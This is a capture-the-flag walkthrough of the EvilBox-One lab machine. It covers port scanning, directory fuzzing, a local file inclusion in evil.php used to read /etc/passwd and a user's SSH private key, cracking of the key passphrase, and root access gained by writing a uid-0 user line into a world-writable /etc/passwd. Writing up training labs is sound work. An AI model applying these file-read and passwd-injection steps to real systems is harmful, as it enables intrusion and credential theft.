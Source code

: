 # EvilBox-One

Lets find out the IP of this Machine First ➡️

![Untitled](EvilBox-One/Untitled.png)

```jsx
IP : 10.10.2.51
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/EvilBox-One]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.51
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 16:54 IST
Nmap scan report for 10.0.2.51
Host is up (0.00066s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 4495500be473a18511ca10ec1ccbd426 (RSA)
|   256 27db6ac73a9c5a0e47ba8d81ebd6d63c (ECDSA)
|_  256 e30756a92563d4ce3901c19ad9fede64 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:94:F8:26 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ➡️

![Untitled](EvilBox-One/Untitled%201.png)

Now lets see the Directory Listing files —>

```bash
feroxbuster -u http://10.0.2.51:80/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -o ferox_80.json --depth 2 -C 403,404 -x php,html,txt,js
```

![Untitled](EvilBox-One/Untitled%202.png)

Now lets look at `/secret/evil.php` file —>

Since it is blank I think this url is vulnerable to directory traversal attack , but for that I need a parameter on which basis I am gona search the `/etc/passwd` file —>   

Lets use burpsuite for that —>

![Untitled](EvilBox-One/Untitled%203.png)

parameter fuzzing list ⤵️

[https://github.com/StrongShiv8/Wordlists-/blob/main/fuzz-lfi-params-list.txt](https://github.com/StrongShiv8/Wordlists-/blob/main/fuzz-lfi-params-list.txt)

Lets see the result on web —>

![Untitled](EvilBox-One/Untitled%204.png)

Now I know user mowree so lets access for ssh private key through `/home/mowree/.ssh/id_rsa` →

[http://10.0.2.51/secret/evil.php?command=/home/mowree/.ssh/id_rsa](http://10.0.2.51/secret/evil.php?command=/home/mowree/.ssh/id_rsa)

![Untitled](EvilBox-One/Untitled%205.png)

Lets get this file and decode its paraphrase value through john-the-ripper tool →

![Untitled](EvilBox-One/Untitled%206.png)

![Untitled](EvilBox-One/Untitled%207.png)

so the paraphrase for ssh login is : `unicorn`

Now its time for ssh login →

![Untitled](EvilBox-One/Untitled%208.png)

Lets check what we got here →

```bash
mowree@EvilBoxOne:~$ ls -al
total 32
drwxr-xr-x 4 mowree mowree 4096 ago 16  2021 .
drwxr-xr-x 3 root   root   4096 ago 16  2021 ..
lrwxrwxrwx 1 root   root      9 ago 16  2021 .bash_history -> /dev/null
-rwxr-xr-x 1 mowree mowree  220 ago 16  2021 .bash_logout
-rwxr-xr-x 1 mowree mowree 3526 ago 16  2021 .bashrc
drwxr-xr-x 3 mowree mowree 4096 ago 16  2021 .local
-rwxr-xr-x 1 mowree mowree  807 ago 16  2021 .profile
drwxr-xr-x 2 mowree mowree 4096 ago 16  2021 .ssh
-r-------- 1 mowree mowree   31 ago 16  2021 user.txt
mowree@EvilBoxOne:~$ cat user.txt 
56Rbp0soobpzWSVzKh9YOvzGLgtPZQ
mowree@EvilBoxOne:~$
```

Now lets see some file permissions and looks like I got something interesting →

```bash
mowree@EvilBoxOne:/var/backups$ ls -al /etc/passwd
-rw-rw-rw- 1 root root 1398 ago 16  2021 /etc/passwd
```

Now I have the permission to write so lets add a user name as `shiv` and `password` as password with root privileges.

First we need to choose a password, salt it and hash the result. openssl to the rescue.

Flags:

- -`1` what hashing algorithm to use. In our use case it doesnt matter, therefore we use MD5 which should be avoided in real world PT as it is not secure.
- -`salt salt` string to use as salt. I choose the string salt
- `password` clear text password we would like to use.

```bash
$ openssl passwd -1 -salt salt password
$1$salt$qJH7.N4xYta3aEG/dfqo/0
```

we need to add some data in order for it to be aligned with the `/etc/passwd` format. This is the final result:

```bash
shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```

I named the user `shiv`. now lets write into the `/etc/passwd` file with nano →

![Untitled](EvilBox-One/Untitled%209.png)

Now lets switch to shiv user —>

```bash
mowree@EvilBoxOne:~$ su shiv
Contraseña: 
root@EvilBoxOne:/home/mowree# whoami
root
root@EvilBoxOne:/home/mowree# cd ~
root@EvilBoxOne:~# ls -al
total 24
drwx------  3 root root 4096 ago 16  2021 .
drwxr-xr-x 18 root root 4096 ago 16  2021 ..
lrwxrwxrwx  1 root root    9 ago 16  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3526 ago 16  2021 .bashrc
drwxr-xr-x  3 root root 4096 ago 16  2021 .local
-rw-r--r--  1 root root  148 ago 17  2015 .profile
-r--------  1 root root   31 ago 16  2021 root.txt
root@EvilBoxOne:~# cat root.txt 
36QtXfdJWvdC0VavlPIApUbDlqTsBM
root@EvilBoxOne:~#
```